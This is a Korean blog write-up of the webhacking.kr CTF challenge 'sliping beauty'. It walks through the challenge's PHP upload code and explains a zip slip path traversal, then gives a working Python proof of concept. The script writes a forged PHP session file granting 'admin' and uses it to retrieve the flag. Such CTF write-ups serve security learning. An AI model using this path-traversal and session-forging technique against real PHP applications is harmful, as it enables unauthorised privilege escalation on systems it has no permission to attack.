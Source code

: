 ```yaml
---
title: '[Webhacking.kr] sliping beauty'
author: hoppi
date: 2023-03-01 01:10:00 + 0000
categories: [Web]
tags: [web, zip_slip, php]
---
```


오랜만에 `webhacking.kr`에 들어가서 좀 예전에 나왔던 새로운(??) 문제들을 몇 문제 풀어보았습니다. 1.5년 전만 하더라도 그 문제들을 보면서 `어떻게 풀라는 거지?`라는 생각 밖에 못했는데 이제는 그 정도는 아닌 것 같네요. 아무튼 그 중에서 오랜만에 마주친 개념을 포함한 `sliping beauty` 롸업을 적어보려고 합니다.  

# 코드 분석
***
먼저 세션의 `uid`가 `admin`이면 플레그를 출력합니다. 사용자가 `zip` 파일을 올리면 추출한 파일들에 난수를 붙여서 `./upload/` 디렉토리에 `copy`합니다.  
```php
<?php
session_start();
if(!$_SESSION['uid']) $_SESSION['uid'] = "guest";
if($_SESSION['uid'] == "admin") include "/flag";
if($_FILES['upload']){
  $path = $_FILES['upload']['tmp_name'];
  $zip = new ZipArchive;
  if ($zip->open($_FILES['upload']['tmp_name']) === true){
    for($i = 0; $i < $zip->numFiles; $i++){
      $filename = $zip->getNameIndex($i);
      $filename_ = $filename.rand(10000000,99999999);
      if(strlen($filename) > 240) exit("file name too long");
      if(preg_match('/[\x00-\x1F\x7F-\xFF]/',$filename)) exit("no hack");
      if(copy("zip://{$_FILES['upload']['tmp_name']}#{$filename}", "./upload/{$filename_}")) echo "{$filename_} uploaded.<br>";
      else echo "{$filename_} upload failed.<br>";
    }
    $zip->close();
  }
}
highlight_file(__FILE__);
?>
```
<br/>

# 취약점
***
## Zip Slip
***
`Zip slip`은 `path traversal`구문을 가지는 파일을 포함한 `zip`, `tar` 등을 추출할 때 이를 이용하여 공격자가 의도한 경로로 원하는 파일을 덮어쓰거나 업로드하는 공격 방식입니다. 이 문제에서는 `preg_match()`를 이용해서 `filename`을 검사하지만 `../` 은 필터링하지 않습니다.  

## PHP Session Overwrite
***
위의 `zip slip`을 이용하면 임의의 위치에 파일을 업로드할 수 있으므로 원하는 세션을 만들어낼 수 있습니다. `PHP`는 직렬화된 포멧으로 `/var/lib/php/sessions/`에 세션파일을 저장합니다. 그리고 그 파일의 포멧은 `session_[PHPSESSID]`와 같습니다. 세션파일에 저장하는 값은 아래와 같이 간단하게 쉘에서 확인할 수 있습니다. `session_encode()`를 찍어보면 직렬화된 세션 데이터를 얻을 수 있습니다. (여기서 `session_start()`는 가장 위에 선언해줘야합니다. 코드를 몇개 적고 중간에 적어주게 되면 에러가 발생합니다🙃)  
![session](../../../assets/img/2023-03-01/session.png){: w="700" h="350" }  
<br/>

# Exploit
***
다음과 같은 시나리오를 구성할 수 있습니다.  

1. 직렬화된 데이터를 포함한 `aasdasdsd/../../../../../../../../var/lib/php/sessions/sess_`파일을 압축하여 업로드 
2. `sess_` 뒤에 랜덤한 숫자가 붙기 때문에 이 숫자가 `PHPSESSID`가 됩니다.
3. 이 랜덤한 숫자로 쿠키의 `PHPSESSID` 값을 바꿔줍니다.
<br/>

## PoC Code
***
그냥 파일이름에 `../`을 포함시키려고 맥북에서는 `/`를 `:`로 바꾸더라구요. 결국 방법을 찾지 못해서 어차피 PoC 코드로 적어야 할 겸 다른 ctf 문제에서 사용한 zip 파일 업로드 코드를 이용했습니다. ㅋㅅㅋ  
```python
from requests import post,get
from re import search
from io import BytesIO
import zipfile

info = lambda x: print(f'[+] {x}')
URL = 'http://webhacking.kr:10015'

PAYLOAD = 'uid|s:5:"admin";'

fh = BytesIO()
with zipfile.ZipFile(fh, "a", zipfile.ZIP_DEFLATED, False) as zf:
    zf.writestr("hacked/../../../../../../../../var/lib/php/sessions/sess_", PAYLOAD)

## Get Cookie
res = get(f"{URL}/")
COOKIE = {"PHPSESSID":res.headers['Set-Cookie'][:-7].split("PHPSESSID=")[1]}

## Zip file upload
res = post(f"{URL}/", files={"upload": ('hoppi.zip', fh.getvalue())}, cookies=COOKIE)
if "failed" in res.text.split("<br>")[0]:
    print(f"[-] Failed to upload zip file...")
else:
    info(res.text.split("<br>")[0])

NEW_SESSID = res.text.split("sess_")[1].split(" uploaded.")[0]
info (f"New PHPSESSID is {NEW_SESSID}")
NEW_COOKIE = {"PHPSESSID":NEW_SESSID}
res = get (f"{URL}/",cookies=NEW_COOKIE)

## Get flag
m = search(r"FLAG{.*?}",res.text)

if m:
    FLAG = m.group()
    info(f'Flag is {FLAG}')
else :
    print("[-] Failed to find the flag")
```
{: file='exploit.py'}
<br/>

# Reference
***
- [https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/](https://blog.christophetd.fr/write-insomnihack-2018-ctf-teaser/)
- [https://ctftime.org/writeup/33611](https://ctftime.org/writeup/33611)
- [https://www.hahwul.com/cullinan/zip-slip/](https://www.hahwul.com/cullinan/zip-slip/)